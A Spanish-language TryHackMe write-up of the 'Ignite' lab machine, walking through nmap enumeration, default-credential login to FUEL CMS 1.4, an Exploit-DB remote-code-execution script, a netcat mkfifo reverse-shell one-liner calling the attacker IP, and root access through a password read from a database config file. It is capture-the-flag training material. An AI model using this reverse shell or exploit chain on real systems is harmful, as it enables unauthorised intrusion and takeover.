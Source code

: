 ```yaml
---
title: "Ignite - Writeup"
date: 2025-03-12
author: "Eric González"
categories: 
  - TryHackMe
tags:
  - Fácil
  - CTF
image: "https://github.com/user-attachments/assets/6fc50d8c-a641-43f2-a520-4408870d642a"

---
```


![{DC58F93F-3185-4714-8695-BD88B891E8DF}](https://github.com/user-attachments/assets/0fa46990-3c83-4472-bf45-95461e35774a)


## Introducción

**Ignite** es una máquina de nivel fácil en TryHackMe (THM) diseñada para practicar explotación del gestor de contenidos (FUEL CMS). En este writeup, analizaremos los pasos clave para comprometer la máquina, desde el reconocimiento hasta la escalación de privilegios.

## Herramientas 

* [Kali](https://www.kali.org/)
* [Nmap](https://nmap.org/)
* [dirb](https://dirb.sourceforge.net/about.html)
* [netcat](https://netcat.sourceforge.net/)

## Detalles

* Attacker IP: 10.9.2.48
* Target VM Type: TryHackMe
* Target IP: 10.10.74.195
* Target Network: TryHackMe VPN

## Enumeración

Comenzamos con un escaneo de puertos para identificar servicios en ejecución:

```bash
nmap -sS --min-rate 5000 -n -Pn 10.10.74.195
```

![{F7095E70-37E1-4E45-8520-7D815AFEEE71}](https://github.com/user-attachments/assets/cce5e0f0-2a74-4c1e-be1a-2cbdc17b7922)


```bash
nmap -sCV --min-rate 5000 -p80 -n -Pn 10.10.74.195
```

![{D4E29788-6ED1-4C2F-962D-3BA81C391089}](https://github.com/user-attachments/assets/cdfbc61b-f17b-4cb8-b6dd-ecfeb88120bc)


Vemos que hay un servicio web, le tiramos un whatweb para obtener información y vemos el título de **FUEL CMS**, vamos a ver de que se trata.

```bash
whatweb http://10.10.74.195/
```
![{912AA099-15C6-41B6-BD4B-206A6B3872ED}](https://github.com/user-attachments/assets/1661bd15-2170-4cbb-aafd-5fda784fc253)

Accedemos dentro del servicio web a ver de que se trata, y vemos que efectivamente se trata del gestor de contenidos Fuel, de version 1.4.

![{C2E78ABF-884A-495C-BF8C-616E271669C5}](https://github.com/user-attachments/assets/f806be25-84a2-4158-83d1-4476afdb5008)

Si bajamos un poco nos da información sobre el panel de administración y la contraseña por defecto.

![{9E9804CC-0EAA-452B-B7FE-919E8B39151D}](https://github.com/user-attachments/assets/036a541c-8fe5-48a4-82f5-ebdd7443960b)

Vamos a tratar de acceder.

![{84F2E50F-00E6-4F67-AACE-FB0FBC580144}](https://github.com/user-attachments/assets/5810bd3a-1c2d-45f7-afc9-554dc29c5d5e)

Vemos que estamos dentro del panel de administración... Muy sencillo no?.

![{FFB207F0-9619-4CB6-B27C-B162F87B7115}](https://github.com/user-attachments/assets/9db4ee9c-3a38-42fb-8b20-c93a3ee15b87)


## Explotación

El objetivo aquí es tener acceso por consola y escalar privilegios dentro del sevidor, así que como anteriormente vimos la versión del CMS vamos a buscar un exploit que nos pueda servir... 
Y efectivamente tenemos uno que nos puede ir bien!.

![{1CDF0191-55F7-498C-B987-AA85B15E334B}](https://github.com/user-attachments/assets/054b54cd-f414-4c6c-8327-44b13d3881ff)

Lo descargamos y modificamos la IP para apuntar al servidor, también eliminamos la linea de "proxy" ya que no será necesario.

```bash
wget https://www.exploit-db.com/raw/47138
```

![{6614E678-5BBF-4D1F-8E49-BD1F2B630CB9}](https://github.com/user-attachments/assets/8c7f31fc-0d09-4c6b-b2d0-ff40a85af682)

![{5A7BBC30-6746-4B63-BF39-56BF26895008}](https://github.com/user-attachments/assets/7ec532d1-c26c-4056-863d-518f616b1b32)


Ejecutamos el script, y a través del parámetro **cmd:** podemos ejecutar comandos y acontecer un (RCE), aunque no funciona del todo bien.

![{50447B06-53A0-4DD9-BE49-189EACDC88E2}](https://github.com/user-attachments/assets/b976c2fd-f156-4211-93fe-e4adf2f1a388)

Vamos a generar una reverse shell a la vez que nos ponemos en escucha por el puerto que queramos, en mi caso el **443**

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.2.48 443 > /tmp/f
```

![{22137FFE-4681-4069-956B-240A3AD5F01F}](https://github.com/user-attachments/assets/c988e414-b6c7-42c1-8408-4c3d5f8ac6eb)


## Post Explotación

Una vez dentro del sistema vamos a escalar provilegios, anteriormente en la web vimos rutas que nos llamaron la atención.
Ya que nos habla de la instal·lación de la base de datos.

![{DDA7C2F5-46FF-4883-A5D7-95F471E7D786}](https://github.com/user-attachments/assets/895cb934-3149-4cf6-9960-b8217ecb2288)

Vamos a investigar el archivo **database.php** y que sorpresa... 
Vemos la contraseña de root expuesta.

```bash
cat fuel/application/config/database.php
```

![{4AD81C04-14FA-46A9-B0D3-FFF762AF4FE0}](https://github.com/user-attachments/assets/662805e7-8929-4543-b6b6-81d0f60223a0)

Nos convertimos en root usando la contraseña que hemos obtenido y ya podriamos leer las flags.

![{45A5B673-9702-4BBC-B17D-6F1D81DE15CF}](https://github.com/user-attachments/assets/e79a592f-1980-477c-a5ca-80596c0af11e)
